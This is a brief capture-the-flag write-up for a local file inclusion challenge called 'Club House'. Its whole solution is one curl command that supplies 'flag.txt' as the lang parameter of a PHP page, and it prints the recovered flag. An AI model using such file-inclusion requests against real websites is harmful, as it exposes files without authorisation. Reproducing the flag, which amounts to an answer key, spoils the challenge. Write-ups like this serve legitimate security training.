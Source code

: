 # Club House

**Challenge Type: LFI (Local File Inclusion)**  
**Challenge Status: Solved**

## Challenge
You login to your Clubhouse account and to see if there are any other survivors. You notice one of the rooms is unusual.  
http://clubhouse.nypinfsecctf.tk/

## Solution
```bash
$ curl --no-progress-meter https://clubhouse.nypinfsecctf.tk/index.php?lang=flag.txt | grep -o "NYP{.*}"

NYP{3z_f!L3_iNClU510nkWWtKpUIfQRuusxFTwIW}
```
